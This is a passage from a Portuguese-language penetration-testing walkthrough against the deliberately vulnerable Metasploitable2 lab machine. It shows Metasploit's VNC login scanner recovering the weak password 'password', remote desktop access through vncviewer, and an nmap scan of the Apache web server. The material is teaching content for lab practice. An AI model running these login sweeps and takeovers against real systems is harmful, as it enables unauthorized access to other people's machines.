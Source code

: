 ```bash
msf6 auxiliary(scanner/vnc/vnc_login) > set RHOSTS 192.168.1.30
RHOSTS => 192.168.1.30

msf6 auxiliary(scanner/vnc/vnc_login) > set USERNAME root
USERNAME => root
```

Por fim, executamos o módulo para tentar a autenticação.

```bash
msf6 auxiliary(scanner/vnc/vnc_login) > run

[*] 192.168.1.30:5900     - 192.168.1.30:5900 - Starting VNC login sweep
[!] 192.168.1.30:5900     - No active DB -- Credential data will not be saved!
[+] 192.168.1.30:5900     - 192.168.1.30:5900 - Login Successful: :password
[*] 192.168.1.30:5900     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Vimos que o módulo conseguiu logar com sucesso usando a senha password. Abra outro terminal do Kali e utilize o comando `vncviewer 192.168.1.30`. Se o `vncviewer` não estiver instalado, você pode obtê-lo com o seguinte comando: `sudo apt install tigervnc-viewer`.

```bash
vncviewer 192.168.1.30
```

Insira a senha `password`, conforme encontramos anteriormente.

![Figura 9](/images/gabriel-breno-post-metasploitable2/login_vnc.png)

Dessa forma, é possível obter acesso completo ao desktop remoto, oferecendo uma oportunidade para explorar mais sobre a máquina-alvo.

![Figura 10](/images/gabriel-breno-post-metasploitable2/vnc_gui.png)

## Exploração de um servidor web

Anteriormente, encontramos que a porta 80 está aberta. Vamos analisá-la.

```bash
└─$ nmap -sV 192.168.1.30 -p 80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 19:51 -03
Nmap scan report for 192.168.1.30
Host is up (0.0077s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

O servidor web está rodando o Apache HTTPD 2.2.8 em um sistema Ubuntu. Para obter mais informações sobre o servidor, podemos usar o seguinte módulo do Metasploit:
